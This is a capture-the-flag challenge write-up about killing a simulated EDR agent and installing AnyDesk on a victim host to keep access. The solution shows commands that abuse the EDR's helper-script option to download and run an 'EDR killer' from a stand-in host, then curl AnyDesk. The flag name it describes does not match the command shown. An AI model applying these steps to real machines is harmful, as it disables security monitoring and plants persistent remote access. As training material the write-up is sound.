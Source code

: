 # O6: Bypass the EDR

### Description
You cashed in your creds and now have initial access to a host in The Lucky Lion's internal network - one step closer to payday!! You better make sure you've got more than one way into this environment in case someone kicks you out - perhaps it would be prudent to download and install some remote management software for future use.

That might be easier said than done, though... you expect The Lucky Lion's security tools might give you trouble. Fortunately, another member of The Mound has written an EDR killer ("f4c3st4b") specific to the EDR you identified earlier. The only issue might be getting it on the host.

### Objectives
Download AnyDesk on the victim machine

It's not as easy as it sounds!

Flag Format Flag will be wrapped: wicys2024{flag_goes_here} In this example

flag_goes_here

wicys2024{flag_goes_here}

{flag_goes_here}

would all be accepted as valid flags.

### Required Tools
Web Browser

AnyDesk SIMULATED LINK: https://anydesk.com.example/downloads/anydesk.bin

"f4c3st4b" EDR Killer SIMULATED LINK: https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab

### Additional Resources
https://www.bleepingcomputer.com/news/security ransomware-gangs-abuse-process-explorer-driver-to-kill-security-software

https://target-httpd.chals.io/shell/edr.html

### Solution
Firstly, let us find the PID for EDR by running the following to list all the running processes:
```bash
ps -A
```

From the output, it tells us that the EDR, cguard, is running on the PID of 10. 

Then we run ``/usr/bin/cguard -h` to see the options for the cguard EDR. The `--script` flag stands out:
```bash
--script SCRIPT    Download and run helper script
```

Let's try to download and run the script with cguard:
```bash
cguard --status https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab -p 10
```

It works! Check that the EDR is killed off with the command, `cguard --status`. After confirming the EDR has been disabled, download AnyDesk on the machine:
```bash
curl https://anydesk.com.example/downloads/anydesk.bin
```

Flag is `wicys2024{anydeskanytime}`
